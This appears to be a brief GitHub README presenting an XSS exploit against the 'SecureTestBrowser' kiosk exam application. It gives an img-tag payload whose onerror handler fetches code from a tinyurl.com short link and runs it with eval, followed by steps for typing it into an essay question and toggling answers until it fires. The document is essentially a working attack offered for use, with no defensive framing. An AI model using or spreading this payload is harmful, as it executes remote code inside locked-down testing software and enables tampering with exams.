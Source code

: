 # Insecure Test Browser
XSS in SecureTestBrowser kiosk app (good luck memorizing it)
```
<img src=# onerror='fetch("https://tinyurl.com/securexss").then(r => r.text()).then(eval);'>
```
Steps:
1. Go to any essay question type the code above
2. Switch to a multiple choice question
3. Change your answer back and forth until the code executes

